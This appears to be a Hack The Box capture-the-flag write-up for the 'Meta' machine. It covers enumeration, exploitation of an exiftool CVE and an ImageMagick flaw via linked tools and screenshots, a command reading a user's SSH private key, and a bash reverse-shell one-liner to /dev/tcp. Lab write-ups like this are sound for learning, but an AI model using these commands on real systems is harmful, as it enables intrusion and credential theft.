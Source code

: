 # HTB META

## Initial Scans:
nmap -sV -sC

![image](https://user-images.githubusercontent.com/19478700/171474499-8e5e8458-fea4-4d04-bfae-b43e19555e81.png)


## Directory Enumeration
No directories found using:
gobuster dir --url artcorp.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 25  > gobuster_dir.txt

## Sub-Domain Enum
#### Used dns proxy
https://github.com/hubdotcom/marlon-tools/blob/master/tools/dnsproxy/dnsproxy.py
#### Found dev01 subdmain using:
gobuster dns -t 30 -w /usr/share/wordlists/subdomains-top1million-110000.txt -d artcorp.htb

![image](https://user-images.githubusercontent.com/19478700/171474657-f3b2b867-f1c6-4050-b99c-144ec9675b7c.png)

## Exploit time
#### looks like service may be running exiftool to get the metadata
#### Server is Devian + php
#### May contain CVE-2021-22204-exiftool
#### Used this tool to create malicious jpg
https://github.com/convisolabs/CVE-2021-22204-exiftool
#### now we have access to the machine as www-data user
![image](https://user-images.githubusercontent.com/19478700/171474715-069534b9-3577-496c-aa75-062972d334cc.png)

## Privilege Escalation
#### we need to be thomas user in order to read user flag
#### lets scan the system process to check for any vulnerable services
https://github.com/DominicBreuker/pspy
#### using pspy (unprivileged Linux process snooping)
#### upload  to uploads folder and execute
![image](https://user-images.githubusercontent.com/19478700/171478219-ea840b58-ea21-4ab9-bfb5-a89ec8d4de1b.png)
![image](https://user-images.githubusercontent.com/19478700/171478770-2808a3a0-2690-4c2f-a9b5-f9bf9c5d4595.png)

#### some of these proceses may be vulnerable
![image](https://user-images.githubusercontent.com/19478700/171478902-6c623773-de08-4fb1-aa52-b598fff4605c.png)

#### lets check mogrify
$ mogrify --version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 
#### vulnerable version
https://www.exploit-db.com/exploits/39767

#### uploaded a malicious svg file wich exploits te vulneravility
![image](https://user-images.githubusercontent.com/19478700/171496540-0948b370-5fe6-4c60-b625-dc8b2d75d509.png)

![image](https://user-images.githubusercontent.com/19478700/171496381-3c6bb488-4ef8-47a4-b081-9ffc4400a727.png)

#### now lets get ssh keys using this vuln so that we can ssh as thomas
#### cat ~/.ssh/id_rsa

![image](https://user-images.githubusercontent.com/19478700/171498204-ff5b9e61-9c28-4368-80b5-c9820a94446d.png)


#### Lets use this key to login as thomas


![image](https://user-images.githubusercontent.com/19478700/171502006-5866b580-2eb3-4e1f-9dbf-56c4102af0a6.png)


## PE II
####now we get root user
#### 	
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

![image](https://user-images.githubusercontent.com/19478700/171504656-c1dfe54b-3c11-4b66-94ca-a133bc3252ea.png)
![image](https://user-images.githubusercontent.com/19478700/171504691-3e0a0ebf-5541-4e22-b3ea-e8e494eea81e.png)





